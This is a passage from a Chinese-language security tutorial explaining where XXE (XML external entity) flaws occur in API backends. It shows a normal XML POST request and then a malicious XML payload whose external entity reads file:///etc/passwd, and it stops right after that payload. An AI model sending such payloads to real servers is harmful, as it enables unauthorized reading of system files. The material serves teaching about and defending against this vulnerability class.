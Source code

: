 ## **五、真实的 XXE 出现在哪**

我们刚刚说了那么多，都是只是我们对这个漏洞的理解，但是好像还没说这种漏洞出现在什么地方

如今的 web 时代，是一个前后端分离的时代，有人说 MVC 就是前后端分离，但我觉得这种分离的并不彻底，后端还是要尝试去调用渲染类去控制前端的渲染，我所说的前后端分离是，后端 api 只负责接受约定好要传入的数据，然后经过一系列的黑盒运算，将得到结果以 json 格式返回给前端，前端只负责坐享其成，拿到数据json.decode 就行了（这里的后端可以是后台代码，也可以是外部的api 接口，这里的前端可以是传统意义的前端，也可以是后台代码）

那么问题经常就出现在 api 接口能解析客户端传过来的 xml 代码，并且直接外部实体的引用，比如下面这个

### **实例一：模拟情况**

**示例代码：**

```
POST /vulnerable HTTP/1.1
Host: www.test.com
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:57.0) Gecko/20100101 Firefox/57.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Referer: https://test.com/test.html
Content-Type: application/xml
Content-Length: 294
Cookie: mycookie=cookies;
Connection: close
Upgrade-Insecure-Requests: 1

<?xml version="1.0"?>
<catalog>
   <core id="test101">
      <author>John, Doe</author>
      <title>I love XML</title>
      <category>Computers</category>
      <price>9.99</price>
      <date>2018-10-01</date>
      <description>XML is the best!</description>
   </core>
</catalog>
```

我们发出 带有 xml 的 POST 请求以后，述代码将交由服务器的XML处理器解析。代码被解释并返回：{“Request Successful”: “Added!”}

但是如果我们传入一个恶意的代码

```
<?xml version="1.0"?>
<!DOCTYPE GVI [<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<catalog>
   <core id="test101">
      <author>John, Doe</author>
      <title>I love XML</title>
      <category>Computers</category>
      <price>9.99</price>
      <date>2018-10-01</date>
      <description>&xxe;</description>
   </core>
</catalog>
```
